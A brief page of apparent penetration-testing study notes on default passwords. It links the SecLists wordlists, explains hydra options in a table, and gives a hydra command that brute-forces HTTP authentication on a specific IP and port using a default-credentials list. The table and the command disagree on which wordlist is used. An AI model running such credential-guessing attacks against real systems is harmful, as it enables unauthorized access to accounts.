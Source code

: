 # Default Passwords

{% embed url="https://github.com/danielmiessler/SecLists" %}

| Options                            | Description                   |
| ---------------------------------- | ----------------------------- |
| `-C ftp-betterdefaultpasslist.txt` | Combined Credentials Wordlist |
| `SERVER_IP`                        | Target IP                     |
| `-s PORT`                          | Target Port                   |
| `http-get`                         | Request Method                |
| `/`                                | Target Path                   |

{% code overflow="wrap" %}
```
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt 83.136.253.102 -s 51865 http-get /
```
{% endcode %}
